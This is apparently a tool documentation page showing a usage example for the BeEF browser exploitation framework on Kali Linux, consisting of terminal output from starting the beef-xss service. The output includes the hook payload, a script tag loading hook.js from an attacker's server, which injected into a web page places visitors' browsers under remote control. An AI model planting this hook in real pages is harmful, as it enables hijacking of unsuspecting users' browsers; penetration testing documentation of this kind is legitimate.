

{}

## Screenshots



## beef Usage Example

```
root@kali:~# beef-xss
[*] Please wait for the BeEF service to start.
[*]
[*] You might need to refresh your browser once it opens.
[*]
[*]  Web UI: http://127.0.0.1:3000/ui/panel
[*]    Hook: <script src="http://<IP>:3000/hook.js"></script>
[*] Example: <script src="http://127.0.0.1:3000/hook.js"></script>

● beef-xss.service - LSB: BeEF
   Loaded: loaded (/etc/init.d/beef-xss; generated)
   Active: active (running) since Sat 2018-11-24 18:44:53 EST; 5s ago
     Docs: man:systemd-sysv-generator(8)
  Process: 3457 ExecStart=/etc/init.d/beef-xss start (code=exited, status=0/SUCCESS)
    Tasks: 5 (limit: 4665)
   Memory: 151.9M
   CGroup: /system.slice/beef-xss.service
           └─3463 ruby /usr/share/beef-xss/beef

Nov 24 18:44:53 kali systemd[1]: Starting LSB: BeEF...
Nov 24 18:44:53 kali systemd[1]: Started LSB: BeEF.

[*] Opening Web UI (http://127.0.0.1:3000/ui/panel) in: 5... 4... 3... 2... 1...
```
